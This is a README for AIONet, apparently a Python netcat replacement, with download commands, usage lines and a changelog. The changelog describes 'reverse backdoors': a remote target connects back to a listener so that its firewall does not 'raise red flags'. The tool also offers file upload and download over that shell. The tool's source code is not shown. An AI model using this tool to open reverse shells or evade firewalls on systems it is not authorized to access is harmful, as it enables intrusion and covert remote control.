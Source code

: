 # All-In-One Network Utility
AIONet was built as a multipurpose tool to replace netcat. Written in Python3, AIONet offers features like reverse shell spawning, file upload and file download.
This tool was written as a replacement for [netutil](https://github.com/aarole/netutil). A detailed explanation of the differences between the two can be found at the end of this document.

## Dependencies
* Python 3

## Download
### Option 1: Using git clone
```
git clone https://github.com/aarole/aionet.git
cd aionet/
```

### Option 2: Using wget
```
wget -O aionet.py https://raw.githubusercontent.com/aarole/aionet/master/aionet.py
```

## Usage
```
On host:           python3 aionet.py -p PORT -l
On remote machine: python3 aionet.py -t TARGET -p PORT

Options:
-t target, --target target IP address of the remote listener
-p port, --port port       If used with -l, port where listener is to be created; else, port where remote listener exists
-l, --listen               Create a listener on the port defined using -p
-h, --help                 show this help message and exit
```

## Updates
* Program structure overhauled to allow for easy extension
  * Created individual classes for the server (listener/host) and the client (target/remote machine)
* Updated program to use reverse backdoors
  * Listener is created on the physical machine and remote target connects to it
  * Opening a port on the host ensures that firewalls on the remote target do not raise red flags
* Replaced getopt with argparse
* Moved file manipulation (download and upload) to post-shell operations
  * Used the base64 library for encoding files during upload/download
* Used the os library to allow for usage of cd and rm commands

## Known issues
* File download
  * Non-text files (png, jpg, pdf) cause errors when downloading them
  * Files are partially downloaded and a part of the base64 encoded file is printed

